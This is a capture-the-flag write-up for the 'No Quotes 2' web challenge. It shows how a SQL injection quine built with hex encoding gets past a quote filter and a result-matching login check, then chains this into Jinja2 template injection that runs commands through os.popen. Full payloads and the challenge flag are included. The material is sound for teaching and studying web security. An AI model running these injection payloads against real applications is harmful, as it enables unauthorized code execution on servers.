




# No Quotes 2

---
## Overview
- **Platform**: UofTCTF
- **Category**: Web
- **Difficulty**: Medium (subjective)
- **Goal**: Chain SQLi Quine with SSTI to get RCE

## Recon

```python
if waf(username) or waf(password):
        return render_template(
            "login.html",
            error="No quotes allowed!",
            username=username,
        )
    query = (
         "SELECT username, password FROM users "
        f"WHERE username = ('{username}') AND password = ('{password}')"
    )
```

- Server concatenates user input directly into query, even though there is one layer of filter

```python
@app.get("/home")
def home():
    if not session.get("user"):
        return redirect(url_for("index"))
    return render_template_string(open("templates/home.html").read() % session["user"])
```

- The server inserts **session["user"]** into the HTML template and renders it using render_template_string.
- Since ***render_template_string*** evaluates Jinja2 expressions, user-controlled input may lead to **Server-Side Template Injection (SSTI)**, which can result in arbitrary code execution.

```python
if not username == row[0] or not password == row[1]:
        return render_template(
            "login.html",
            error="Invalid credentials.",
            username=username,
        )
    
    session["user"] = row[0]
```
- However, in **No Quotes 2**, author adds an extra layer requiring our input must exactly match what SQL returns to get logged in.

## Attack Flow
Server queries **SELECT username, password**, returns row and `session["user"] = row[0]` then malicious code should be at username.

```sql
SELECT username, password FROM users WHERE username = ('{username}') AND password = ('{password}')
```

Since server filters quotes => can't use `'` or `"` to close username field => utilize quote in the query to close

Use \ to escape ' in username field, then `\') AND password = (` is username (when query, not login)

Then to return our payload to row[1], we can use *UNION-based attack*, and for returned results match with inputs, I use a technique called ***SQL Injection Quine***. 

The SQL Quine will throw exactly what its query, it has a form like this:
> ***Remark:** To gain better understanding, you should ask your AI since the explanation for this technique is really complicated.*

```sql
SELECT REPLACE('$', CHAR(36), '$')
```
> The first dollar **$** is the returned string called **string**
> The next value is string we want to replace with the last value
> The last and also the second dollar **$** is the string to be replaced called **replacement**
Since **REPLACE** is a column, we can return our malicious code to username by inserting *payload* in front of **REPLACE**

In this case, the payload must be hex encoded for not causing error when SQL queries (since we can't use quotes to indicate it's a string)

Bypass waf using hex is a story, but the query results must match our inputs. Our hex-encoded payload is then decoded to normal string and compared with our original inputs => original inputs must contain **SSTI payload** and not **quotes**.<br>
Then we should find SSTI payload for jinja2 without quotes. I will talk about this later.<br>

Now switch to SQL payload, till this point, it has this form:

```sql
SELECT hex_ssti,REPLACE('$', CHAR(36), '$')
```

We want to use UNION-based attack and the returned results is the same as password:

```sql
) UNION SELECT hex_ssti,REPLACE(') UNION SELECT hex_ssti,REPLACE($,CHAR(36),$)#',CHAR(36),') UNION SELECT hex_ssti,REPLACE($,CHAR(36),$)#')#
```

For **no-quotes condition**, I must hex-encode the **string** (as I call it above). This will be then decoded by SQL before querying. We can also use 0x24 for second value, which is also dollar sign in hex value.

```sql 
) UNION SELECT hex_ssti,REPLACE(hex_encode_of{) UNION SELECT hex_ssti,REPLACE($,0x24,$)#},0x24,hex_encode_of{) UNION SELECT hex_ssti,REPLACE($,0x24,$)#})#
```

Another problem arises, SQL decodes both **string** and **replacement**. Decoded **replacement** = original string will be placed in **string** => returned results is not hex-encoded, diff from our input. => We must hex-encode the **replacement** one more time.

```sql 
) UNION SELECT hex_ssti,REPLACE(hex_encode_of{) UNION SELECT hex_ssti,REPLACE($,0x24,$)#},0x24,CONCAT(0x3078,HEX(hex_encode_of{) UNION SELECT hex_ssti,REPLACE($,0x24,$)#})))#
```

**Explanation**: For simppler breakdown, I'll call `hex_encode_of{) UNION SELECT hex_ssti,REPLACE($,0x24,$)#}` is A.<br>

```sql 
) UNION SELECT hex_ssti,REPLACE(A,0x24,CONCAT(0x3078,HEX(A)))#
```

Assume we have our password like above:
- server filters and sees no quotes => pass
- SQL decodes hex-encoded value, execute function `CONCAT(0x3078,HEX(A))`, which finally is `A` and decoded A at **string**  is now `) UNION SELECT hex_ssti,REPLACE(A,0x24,CONCAT(0x3078,HEX(A)))#`

```
ssti_payload, ) UNION SELECT hex_ssti,REPLACE(A,0x24,CONCAT(0x3078,HEX(A)))#
```

For SSTI payload, I have discovered 2 approaches:
- Using function to convert ascii value into character (bypass waf of filtering quotes) and concatenate them to completed payload. (I have my friend support to craft this payload. Shout out for Vũ Trọng Quốc Khánh)

```{{url_for.__globals__.os.popen(url_for.__globals__.__builtins__.bytes([47,114,101,97,100,102,108,97,103]).decode()).read()}}```

[47,114,101,97,100,102,108,97,103] is `/readflag`

- Using `request` lib to get value from ***headers or args or cookies*** without using quotes
```{{url_for.__globals__.os.popen(request.cookies.hack).read()}}``` (remember to replace `cookies` with your desired method)

You can choose one of three methods for these approaches (I recommend using `cookies` since challenge uses https, I can't use BurpSuite for this site, the other 2 methods work when I deploy on my container, which uses http protocol), after sending post form and getting redirect to `/home`, you can do as follow:
- If **headers**: Use BurpSuite to capture request to `/home` and insert header: `hack: /readflag`

- If **args**:  Use BurpSuite to capture request to `/home` and add query in URI: ?hack=/readflag

- If **cookies**: Add cookies in your browser and login as usual.


## Final Payload

You can find payload for [first approach](assets/midoriya.py) and [second approach](assets/py.py) here.



> Flag: *uoftctf{d1d_y0u_wr173_4_pr0p3r_qu1n3_0r_u53_INFORMATION_SCHEMA???}*
